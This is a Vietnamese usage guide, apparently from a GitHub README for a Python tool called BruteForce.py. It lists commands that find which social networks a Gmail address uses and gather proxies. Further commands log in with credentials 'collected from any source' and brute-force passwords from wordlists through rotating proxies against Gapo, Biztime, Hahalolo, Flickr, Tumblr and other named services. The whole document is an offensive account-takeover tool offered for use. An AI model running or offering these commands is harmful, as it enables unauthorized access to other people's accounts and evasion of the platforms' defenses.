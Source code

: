 Thực hiện dùng finder để tìm kiếm các mạng xã hội mà gmail đãng ký
python BruteForce.py -% [gmail]

Thực hiện nhận proxy
Nhận proxy cho tất cả các mạng xã hội bên trong công cụ
python BruteForce.py -> [proxy_list]
Nhận proxy cho mạng xã hội cụ thể
python BruteForce.py -> [proxy_list] -~ gapo
Nhận proxy cho nhiều mạng xã hội ngăn nhau bởi dấu ,
python BruteForce.py -> [proxy_list] -~ gapo,biztime

Thực hiện đăng nhập tài khoản thu thập được từ bất kỳ nguồn nào. Với tài khoản gmail và password
python BruteForce.py -! [Tên đăng nhập có dạng gmail] -$ [Mật khẩu] -< [proxy_list]

BruteForce trên từng mạng xã hội

BruteForce Gapo
python BruteForce.py -G [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Biztime
python BruteForce.py -b [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Hahalolo
python BruteForce.py -H [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Flickr
python BruteForce.py -F [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Tumblr
python BruteForce.py -T [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Zoimas
python BruteForce.py -Z [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Befilo
python BruteForce.py -B [Tên đăng nhập] -# [password_list] -< [proxy_list]

BruteForce Desentric
python BruteForce.py -D [Tên đăng nhập] -# [password_list] -< [proxy_list]

Ngoài ra có thể kiểm tra đang nhập cụ thể bằng cách lệnh
Ví dụ cho Gapo
python BruteForce.py -G [Tên đăng nhập] -$ [password] -< [proxy_list]
